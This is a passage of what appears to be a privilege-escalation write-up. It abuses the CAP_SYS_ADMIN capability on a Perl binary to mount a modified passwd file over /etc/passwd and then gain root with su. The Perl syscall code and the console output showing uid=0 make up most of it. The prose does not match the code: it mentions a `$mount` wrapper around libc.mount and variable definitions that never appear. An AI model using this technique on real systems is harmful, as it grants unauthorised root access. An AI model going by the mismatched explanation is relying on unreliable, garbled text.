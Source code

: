 ```perl
my $syscall_number = determine_syscall_number("mount");

# Invoke the system call directly
my $ret = syscall($syscall_number, $source, $target, $filesystemtype, $mountflags, $options);

if ($ret == -1) {
    die "Error mounting: $!";
}

print "Mount successful.\n";

# Helper function to determine the system call number
sub determine_syscall_number {
    my ($syscall_name) = @_;
    
    my $syscall_number = eval {
        require 'syscall.ph';
        eval "&SYS_$syscall_name";
    };

    die "Unable to determine the system call number for $syscall_name: $@" if $@;
    die "Unable to determine the system call number for $syscall_name" unless defined $syscall_number;

    return $syscall_number;
}
```

In the above Perl code, we define a Perl subroutine named `$mount` that wraps the `libc.mount` function.

After that, we define the necessary variables (`$source`, `$target`, `$filesystemtype`, `$options`, and `$mountflags`) with the corresponding values.

The code also includes a helper function, `determine_syscall_number`, which attempts to determine the system call number for a given syscall name (mount in this case). It uses the `syscall.ph` file, which should be present on your system, to determine the number. The code then invokes the system call using the determined number.

Please note that the determination of the system call number relies on the presence of the `syscall.ph` file and the correct mapping of the syscall names. In some cases, additional steps may be required to ensure that the `syscall.ph` file is available and up to date.

We could then mount the modified passwd file on `/etc/passwd`:

```shell
user@pwn:~$ ./perl cap_sys_admin.pl
user@pwn:~$ cat /etc/passwd
root:$1$xxxxxxxxxxxxxxxxxxxx/:0:0:root:/root:/bin/bash
```

Then we can switch to the root user with the password provided:

```shell
user@pwn:~$ su root
Password:
root@pwn:/home/user# id
uid=0(root) gid=0(root) grupos=0(root)
```
